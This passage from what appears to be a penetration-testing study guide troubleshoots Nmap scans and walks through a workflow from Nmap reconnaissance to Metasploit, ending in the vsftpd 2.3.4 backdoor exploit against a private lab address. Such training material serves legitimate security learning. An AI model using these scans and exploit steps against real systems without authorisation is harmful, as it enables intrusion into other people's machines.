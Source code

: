 ### 🚨 Issue 2: "Host Appears Down" Errors
**🔍 Problem:** Missing live hosts that should respond
**💊 Solution:**
```bash
# 🛡️ Bypass host discovery issues
nmap -Pn 192.168.1.10                    # Skip ping, assume online
nmap -PS80,443,22 192.168.1.0/24         # TCP SYN ping to common ports
nmap -PA80,443 192.168.1.0/24            # TCP ACK ping (bypass stateful FW)
```

### 🚨 Issue 3: Permission Denied for SYN Scans
**🔍 Problem:** Cannot run -sS scans (need root privileges)
**💊 Solution:**
```bash
# 🔑 Alternative approaches
sudo nmap -sS 192.168.1.10               # Run as root
nmap -sT 192.168.1.10                    # TCP connect (no root needed)
nmap -sU --top-ports 100 192.168.1.10    # UDP scan alternative
```

### 🚨 Issue 4: No Service Version Information
**🔍 Problem:** -sV not showing version details
**💊 Solution:**
```bash
# 🔬 Increase detection intensity
nmap -sV --version-intensity 9 192.168.1.10
nmap -A 192.168.1.10                     # Aggressive detection
nmap --script=banner 192.168.1.10        # Banner grabbing
```

---

## 🔗 Tool Integration Workflows

### 🔄 Primary Workflow: Nmap → Metasploit → Exploitation
```bash
# 📊 Step 1: Nmap reconnaissance 
nmap -sV -A -oX nmap_results.xml 192.168.1.10

# 🚀 Step 2: Import into Metasploit
msfconsole
workspace -a eJPT_lab
db_import nmap_results.xml
hosts                    # View discovered hosts
services                 # View discovered services

# ⚔️ Step 3: Search for exploits based on services
search apache 2.4.41    # Search by service version
search vsftpd 2.3.4     # Search by FTP version
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.1.10
exploit
```
